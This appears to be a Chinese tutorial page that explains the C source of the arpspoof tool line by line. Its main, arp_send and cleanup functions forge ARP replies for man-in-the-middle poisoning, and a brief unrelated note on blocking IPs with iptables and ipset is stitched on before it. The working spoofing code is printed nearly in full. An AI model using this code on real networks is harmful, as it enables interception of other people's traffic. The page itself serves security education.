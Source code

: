 iptables 包含几个表，每个表由链组成。默认的是 filter 表，最常用的也是 filter 表，另一个比较常用的是 nat 表。一般封 IP 就是在 filter 表的 INPUT 链添加规则。

在进行规则匹配时，是从规则列表中从头到尾一条一条进行匹配。

可以用这几条命令概括使用 ipset 和 iptables 进行 IP 封禁的流程

ipset create vader hash:ip  
iptables -I INPUT -m set --match-set vader src -j DROP  
ipset add vader 4.5.6.7  
ipset add vader 1.2.3.4  
ipset add vader ...  
ipset list vader # 查看 vader 集合的内容  

下面分别对各条命令进行描述。

###哎，技术太菜，需要好好学习了！！！

---
---
代码理解：

从main函数开始

首先大家不要慌，我加了无数注释，这个工具的代码也不过400行而已。首先我们看一下main函数：

为了避免大家看起来太紧张，我在源码的注释中加了详细的讲解，方便基础薄弱的同学理解：

int main(int argc, char *argv[])
{
       int c;
       char ebuf[PCAP_ERRBUF_SIZE];
       intf = NULL;
       spoof_ip = target_ip = 0;
 
 /**
      关于getopt这个函数我想做如下解释大家就可以读懂下面的函数的具体意思了：
      1.getopt的用途：用于专门处理函数参数的。
      2.getopt的用法：argc与argv直接是从main的参数中拿下来的，第三个参数描述了整个程序参数的命令要求
                    具体的用法我们可以先理解为要求i,t这两个参数必须有值
                    然后有具体值得参数会把值付给全局变量optarg，这样我们就能理解下面的while循环中的操作了
 */
       while ((c = getopt(argc, argv, "i:t:h?V")) != -1) {
 
              switch (c) {
 
              case 'i':
                     intf = optarg;
                     break;
              case 't':
/*
       libnet_name_resolve是解析域名,然后把域名解析的结果形成ip地址返回到target_ip
*/
                     if ((target_ip = libnet_name_resolve(optarg, 1)) == -1)
                            usage();
                     break;
              default:
                     usage();
 
              }
 
       }
      
       argc -= optind;
       argv += optind;
 
       if (argc != 1)
              usage();
 
       if ((spoof_ip = libnet_name_resolve(argv[0], 1)) == -1)
              usage();
 
      /*
      pcap_lookupdev 顾名思义这个pcap库中的函数是用来寻找本机的可用网络设备。
      下面的if语句是将如果intf（-i的参数为空就调用pcap_lookupdev来寻找本机的网络设备）      
      ebuf就是error_buf用来存储错误信息
      */
       if (intf == NULL && (intf = pcap_lookupdev(ebuf)) == NULL)
              errx(1, "%s", ebuf);
 
 /*
 libnet_open_link_interface这个函数存在于libnet库中，作用是打开intf指向的网络链路设备
 错误信息存入ebuf中。
 */
       if ((llif = libnet_open_link_interface(intf, ebuf)) == 0)
              errx(1, "%s", ebuf);
 
 /*
 下面语句的意思是如果target_ip为0或者是arp_find没有成功找到target_ip
 那么提示错误
 */
       if (target_ip != 0 && !arp_find(target_ip, &target_mac))
              errx(1, "couldn't arp for host %s",
     libnet_host_lookup(target_ip, 0));
 
 //这里关于信号的处理问题如果大家不是太清楚的话也可以跳过，
 //有兴趣的朋友，可以深入了解一下，因为这里不是本文重点，就不再赘述了
       signal(SIGHUP, cleanup);
       signal(SIGINT, cleanup);
       signal(SIGTERM, cleanup);
 
       for (;;) {
             /*
                    在这个for的循环里我们看到了我们希望看到的核心模块
      arp_send大家一看这个函数便知道这个函数是用来发送伪造的arp数据包的，关于这个函数具体的用法我们稍后将会讨论
              */   
              arp_send(llif, intf, ARPOP_REPLY, NULL, spoof_ip,
                    (target_ip ? (u_char *)&target_mac : NULL),
                    target_ip);
              sleep(2);
 
       }
/* NOTREACHED */
 
       exit(0);
 
}

看了main函数里面的各种东西，我们发现并没有什么玄机，其实就是很简单的编程，具体的函数讲解都在注释中写出来了。

核心函数的登场 

接下来我们就看一下他是如何实现发送arp包的，其实知道大家看了源代码以后就知道，这真的没有什么技术含量，

/**
      这里是我们发送arp包的核心实现
      我先来介绍一下这个函数的参数方便大家理解
      参数一：libnet链路层接口，通过这个接口可以操作链路层
      参数二：本机的网卡设备intf（由-i指定或者pcap_lookupdev来获取）
      参数三：arpop，来指定arp包的操作
      参数四：本机硬件地址
      参数五：本机ip
      参数六：目标硬件地址
      参数七：目标ip
 */
int arp_send(struct libnet_link_int *llif, char *dev,
 int op, u_char *sha, in_addr_t spa, u_char *tha, in_addr_t tpa)
{
 
       char ebuf[128];
       u_char pkt[60];
 
 /*
 这里来通过链路层和网卡来获取dev对应的mac地址*/
       if (sha == NULL &&
    (sha = (u_char *)libnet_get_hwaddr(llif, dev, ebuf)) == NULL) {
 
              return (-1);
 
       }
       /*
       这里通过链路层和网卡来获取dev对应的ip地址
       */
 
       if (spa == 0) {
 
              if ((spa = libnet_get_ipaddr(llif, dev, ebuf)) == 0)
                     return (-1);
              spa = htonl(spa); /* XXX */
 
       }
      
       /*
       如果目标mac没有的话就被赋值为\xff\xff\xff\xff\xff\xff
       */
       if (tha == NULL)
              tha = "\xff\xff\xff\xff\xff\xff";
 
 /*
libnet_ptag_t libnet_build_ethernet(
u_int8_t*dst, u_int8_t *src,
u_int16_ttype, u_int8_t*payload,
u_int32_tpayload_s, libnet_t*l,
libnet_ptag_t ptag )
功能：
构造一个以太网数据包
参数：
dst：目的 mac
src：源 mac
type：上层协议类型
payload：负载，即附带的数据，可设置为 NULL（这里通常写 NULL）
payload_s：负载长度，或为 0（这里通常写 0 ）
l：libnet 句柄，libnet_init() 返回的 libnet * 指针
ptag：协议标记，第一次组新的发送包时，这里写 0，同一个应用程序，下一次再组包时，这个位置的值写此函数的返回值。
返回值：
成功：协议标记
失败：-1
 */
       libnet_build_ethernet(tha, sha, ETHERTYPE_ARP, NULL, 0, pkt);
 /*
 libnet_ptag_t libnet_build_arp(
u_int16_t hrd, u_int16_t pro,
u_int8_t hln, u_int8_t pln，
u_int16_t op, u_int8_t *sha,
u_int8_t *spa, u_int8_t *tha，
u_int8_t *tpa, u_int8_t *payload，
u_int32_t payload_s, libnet_t *l,
libnet_ptag_t ptag )
功能：
构造 arp 数据包 
参数： 
hrd：硬件地址格式，ARPHRD_ETHER（以太网） 
pro：协议地址格式，ETHERTYPE_IP（ IP协议） 
hln：硬件地址长度 
pln：协议地址长度 
op：ARP协议操作类型（1：ARP请求，2：ARP回应，3：RARP请求，4：RARP回应） 
sha：发送者硬件地址 
spa：发送者协议地址 
tha：目标硬件地址 
tpa：目标协议地址 
payload：负载，可设置为 NULL（这里通常写 NULL） 
payload_s：负载长度，或为 0（这里通常写 0 ） 
l：libnet 句柄，libnet_init() 返回的 libnet * 指针 
ptag：协议标记，第一次组新的发送包时，这里写 0，同一个应用程序，下一次再组包时，这个位置的值写此函数的返回值。 
返回值： 
成功：协议标记 
失败：-1
 */
       libnet_build_arp(ARPHRD_ETHER, ETHERTYPE_IP, ETHER_ADDR_LEN, 4,
             op, sha, (u_char *)&spa, tha, (u_char *)&tpa,
             NULL, 0, pkt + ETH_H);
 
       fprintf(stderr, "%s ",
       ether_ntoa((struct ether_addr *)sha));
 
 
 
 /*
 下面的if和else是回显处理（也就是大家能看到的部分
 */
       if (op == ARPOP_REQUEST) {
 
              fprintf(stderr, "%s 0806 42: arp who-has %s tell %s\n",
                     ether_ntoa((struct ether_addr *)tha),
                     libnet_host_lookup(tpa, 0),
                     libnet_host_lookup(spa, 0));
 
       }
       else {
 
              fprintf(stderr, "%s 0806 42: arp reply %s is-at ",
                     ether_ntoa((struct ether_addr *)tha),
                     libnet_host_lookup(spa, 0));
              fprintf(stderr, "%s\n",
                     ether_ntoa((struct ether_addr *)sha));
 
       }
       return (libnet_write_link_layer(llif, dev, pkt, sizeof(pkt)) == sizeof(pkt));
 
}

我们看到这其实真的没有什么很神奇的内容对吧？

小尾巴

 /*
      下面我们发现挂载信号处理函数的都是cleanup函数，
      这个函数很好理解，就是在本机网络设备存在的条件下把包再发三遍，
     
      但是为什么要这么做呢？似乎立即中断也没什么不合理，
      我想作者的意思就是总要给一个缓冲的时间啊
 
      我们再仔细观察一下，在main的主循环中是sleep(2)
      在下面的循环中是sleep(1)
     
 */
void cleanup(int sig)
{
 
       int i;
 
       if (arp_find(spoof_ip, &spoof_mac)) {
 
              for (i = 0; i < 3; i++) {
 
/* XXX - on BSD, requires ETHERSPOOF kernel. */
 
/*上面这条注释是源码的作者加的，意思是说在BSD系统中需要ETHERSPOOF的第三方内核模块*/
                     arp_send(llif, intf, ARPOP_REPLY,
                           (u_char *)&spoof_mac, spoof_ip,
                           (target_ip ? (u_char *)&target_mac : NULL),
                           target_ip);
                     sleep(1);
 
              }
 
       }     
       exit(0);
 
}

这样我们还有什么不理解么？在《中间人攻击-ARP毒化》一文中，arpspoof这个工具被我们以这样的方式解密，大家是否开始觉得其实这并没有任何神奇的地方？这就是我们神化的黑客工具吧。 